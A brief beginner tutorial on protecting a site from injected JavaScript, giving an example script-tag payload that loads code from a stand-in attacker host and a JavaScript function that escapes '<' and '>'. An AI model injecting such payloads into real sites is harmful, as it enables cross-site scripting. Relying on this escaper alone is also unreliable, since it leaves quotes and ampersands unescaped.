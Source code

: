 # Protecting your Site from Other People's JavaScript

Imagine someone sets their name on your site equal to:

```HTML
<script src="http://hackyourwebsite.com/eviljavascript.js"></script>
```

They could mess up your site!

-

To prevent this you can add a function that prohibits the characters '<' and '>' from being entered by replacing them with different characters as seen below

```javascript
var charEscape = function(_html) {
    var newHTML = _html;

    newHTML = _html.replace(/</g, "&lt;");
    newHTML = newHTML.replace(/>/g, "&gt;");

    return newHTML;
};
```
